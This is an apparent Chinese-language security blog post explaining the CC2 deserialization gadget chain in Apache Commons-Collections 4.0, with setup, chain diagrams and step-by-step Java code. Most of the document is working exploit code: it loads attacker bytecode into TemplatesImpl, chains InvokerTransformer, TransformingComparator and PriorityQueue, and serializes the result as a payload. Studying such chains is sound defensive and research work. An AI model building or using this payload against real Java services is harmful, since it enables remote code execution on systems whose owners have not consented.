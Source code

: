 ```yaml
---
title: Commons-Collections篇06-CC2链
date: 2025-9-28 20:00:00
tags: JAVA
categories: JAVA安全-JAVA反序列化
---
```


## 前言

CC2和CC4是几乎一样的，只有`transform()`方法不同，CC4调用`InstantiateTransformer.transform()`，CC2调用`InvokerTransform()`

## 环境搭建

- [JDK8u65](https://www.oracle.com/cn/java/technologies/javase/javase8-archive-downloads.html)
- [openJDK 8u65](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/af660750b2f4)
- Maven 3.6.3
- Commons-Collections 4.0
- pom.xml加载Commons-Collections 依赖

```xml
<dependency>  
 <groupId>org.apache.commons</groupId>  
 <artifactId>commons-collections4</artifactId>  
 <version>4.0</version>  
</dependency>
```

## 调用链

CC2链

![image-20250929141705194](./Commons-Collections%E7%AF%8706-CC2%E9%93%BE/image-20250929141705194.png)

CC2和CC4对比一下，就只有中间调用transform()方法的类不同

![image-20250929141728103](./Commons-Collections%E7%AF%8706-CC2%E9%93%BE/image-20250929141728103.png)

结合一下就是这样

![image-20250929142053582](./Commons-Collections%E7%AF%8706-CC2%E9%93%BE/image-20250929142053582.png)



# 代码实现

## templateslmpl动态加载字节码

```java
        byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setfieldvalue(templates,"_name","a");
        setfieldvalue(templates,"_bytecodes",new byte[][]{code});
        setfieldvalue(templates,"_tfactory",new TransformerFactoryImpl());
        templates.newTransformer();
```

`setfieldvalue`函数

```java
    public static void setfieldvalue(Object obj,String fieldName,Object value) throws Exception{
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
```

## InvokerTransformer.transform()调用newTransformer()

```java
        byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setfieldvalue(templates,"_name","a");
        setfieldvalue(templates,"_bytecodes",new byte[][]{code});
        setfieldvalue(templates,"_tfactory",new TransformerFactoryImpl());
                InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});
        invokerTransformer.transform(templates);
```

## TransformingComparator.compare()调用transform()

```java
                byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setfieldvalue(templates,"_name","a");
        setfieldvalue(templates,"_bytecodes",new byte[][]{code});
        setfieldvalue(templates,"_tfactory",new TransformerFactoryImpl());
                InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});
        TransformingComparator transformingComparator = new TransformingComparator(invokerTransformer);
        transformingComparator.compare(templates,templates);
```

## PriorityQueue类调用后续链子

接下来的链子都是在`PriorityQueue`类中，只需要满足其中的条件，然后反序列化调用`readObejct`就可以

其中需要注意的点在CC4中都有讲，需要控制`heapify()`函数中的`size`满足条件进入for循环

所以需要使用`add`函数给`priorityQueue`对象添加元素，`add`函数也会调用`compare`函数，所以要注意在这之前不能满足所有需求，在add之后再将`TransformingComparator`的`Transform`参数重新赋值

```java
        byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setfieldvalue(templates,"_name","a");
        setfieldvalue(templates,"_bytecodes",new byte[][]{code});
        setfieldvalue(templates,"_tfactory",new TransformerFactoryImpl());
        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});
TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));        
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
        priorityQueue.add(templates);
        priorityQueue.add(templates);

        Class tscomparator = transformingComparator.getClass();
        Field transformer = tscomparator.getDeclaredField("transformer");
        transformer.setAccessible(true);
        transformer.set(transformingComparator,invokerTransformer);

        serialize(priorityQueue);
        unserialize("CC2.txt");
```


